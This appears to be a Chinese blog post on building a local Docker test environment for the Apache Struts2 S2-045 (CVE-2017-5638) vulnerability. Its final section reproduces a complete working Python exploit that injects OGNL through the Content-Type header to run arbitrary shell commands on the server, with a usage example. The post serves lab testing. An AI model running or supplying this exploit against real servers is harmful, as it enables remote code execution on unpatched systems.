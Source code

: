 ```yaml
---
layout: post
title: 如何使用Docker快速构建S2-045漏洞环境
categories: [Configuration]
tags: [Docker,Vulnerability-environment]
description: "S2又出高危了，想搞事又怕被水表怎么办？不如自己构建一个真实的漏洞环境，在本地过过瘾。这篇博客以最新的 S2-045 为例，记录如何使用Docker快速进行漏洞测试环境的构建。"
fullview: false
comments: true
---
```

# 准备工作

## 关于 Docker

首先你需要一个Docker环境，关于Docker感兴趣的同学可以阅读[《Docker—入门到实践》](https://yeasy.gitbooks.io/docker_practice/content/)。

关于如何安装Docker请看[安装 Docker](https://yeasy.gitbooks.io/docker_practice/content/install/)。

## 关于 Dockerfile

>如果我们可以把每一层修改、安装、构建、操作的命令都写入一个脚本，用这个脚本来构建、定制镜像，那么之前提及的无法重复的问题、镜像构建透明性的问题、体积的问题就都会解决。这个脚本就是 Dockerfile 。

本次重点内容就是如何创建一个 Dockerfile 并构建一个 Docker 镜像。

关于 Dockerfile 请看[使用 Dockerfile 定制镜像](https://yeasy.gitbooks.io/docker_practice/content/image/build.html)

## 关于S2-045的测试环境

我们需要一个 S2-045 的测试环境，这里可以使用[ mottoin ](http://www.mottoin.com/)提供的[测试环境](https://github.com/mottoin/S2-045)。

也可以下载[ struts2-blank ](https://mvnrepository.com/artifact/org.apache.struts/struts2-blank)进行测试，但是需要手动修改 war 包中的<code> struts.xml </code>，开启动态方法调用。

    <constant name="struts.enable.DynamicMethodInvocation" value="true"/>

# 创建一个 Dockerfile 文件

首先我们要创建一个文件夹来放测试环境以及 Dockerfile 。

    mkdir S2-045

在文件夹内放入下载好的测试环境，然后创建一个 Dockerfile 。

    cp your-download-path/S2-045.war ./S2-045
    vi ./S2-045/Dockerfile

将下列语句写入 Dockerfile ，保存并退出。

    FROM tomcat:8.0-jre8

    WORKDIR /tmp

    RUN rm -rf /usr/local/tomcat/webapps/ \
    && chmod a+x /usr/local/tomcat/bin/*.sh

    COPY S2-045.war /usr/local/tomcat/webapps/ROOT.war
    
    EXPOSE 8080

    CMD ["/usr/local/tomcat/bin/catalina.sh", "run"]

--------------
3月11日更新：

如果是使用树莓派使用上述Dockerfile会无法构建。

可以修改语句 <code>RUN</code> 为 <code>CMD<code> 。

但经过测试发现即使可以构建也不可以运行，如果有人运行成功请麻烦联系我。

--------------

当前的目录结构如下:

    └── S2-045
        ├── Dockerfile
        └── S2-045.war

# 构建 s2-045 镜像

运行命令:

    docker build -t s2-045 S2-045

docker 就会根据之前的 Dockerfile 进行自动构建。

![build](http://o8lgx56x1.bkt.clouddn.com/blog/img/s2-045-docker-build.png)

查看所有的镜像

    docker images -a

可以看到 s2-045 已经静静的躺在列表里面了。

![images-all](http://o8lgx56x1.bkt.clouddn.com/blog/img/s2-045-docker-images-all.png)

# 运行 s2-045 镜像

运行:

    docker run -d -p 80:8080 s2-045

查看当前运行镜像状态:

    docker stats

![stats](http://o8lgx56x1.bkt.clouddn.com/blog/img/s2-045-docker-stats.png)

访问搭建好的环境:

    http://127.0.0.1/index.action

![index](http://o8lgx56x1.bkt.clouddn.com/blog/img/s2-045-docker-index.png)

测试漏洞的脚本是在msf里面找的，相比其他公布出来的测试脚本更稳定：

    #!/usr/bin/python
    # -*- coding: utf-8 -*-

    import urllib2
    import httplib


    def exploit(url, cmd):
        payload = "%{(#_='multipart/form-data')."
        payload += "(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)."
        payload += "(#_memberAccess?"
        payload += "(#_memberAccess=#dm):"
        payload += "((#container=#context['com.opensymphony.xwork2.ActionContext.container'])."
        payload += "(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))."
        payload += "(#ognlUtil.getExcludedPackageNames().clear())."
        payload += "(#ognlUtil.getExcludedClasses().clear())."
        payload += "(#context.setMemberAccess(#dm))))."
        payload += "(#cmd='%s')." % cmd
        payload += "(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win')))."
        payload += "(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd}))."
        payload += "(#p=new java.lang.ProcessBuilder(#cmds))."
        payload += "(#p.redirectErrorStream(true)).(#process=#p.start())."
        payload += "(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()))."
        payload += "(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros))."
        payload += "(#ros.flush())}"

        try:
            headers = {'User-Agent': 'Mozilla/5.0', 'Content-Type': payload}
            request = urllib2.Request(url, headers=headers)
            page = urllib2.urlopen(request).read()
        except httplib.IncompleteRead, e:
            page = e.partial

        print(page)
        return page

    if __name__ == '__main__':
        import sys
        if len(sys.argv) != 3:
            print("[*] struts2_S2-045.py <url> <cmd>")
        else:
            print('[*] CVE: 2017-5638 - Apache Struts2 S2-045')
            url = sys.argv[1]
            cmd = sys.argv[2]
            print("[*] cmd: %s\n" % cmd)
            exploit(url, cmd)

使用方法如下:

    python poc.py http://127.0.0.1/index.action "cd / && ls -al"

![result](http://o8lgx56x1.bkt.clouddn.com/blog/img/s2-045-docker-result.png)

# 参考

[快速搭建各种漏洞环境](https://github.com/Medicean/VulApps)

[S2-045 原理初步分析](http://paper.seebug.org/241/)
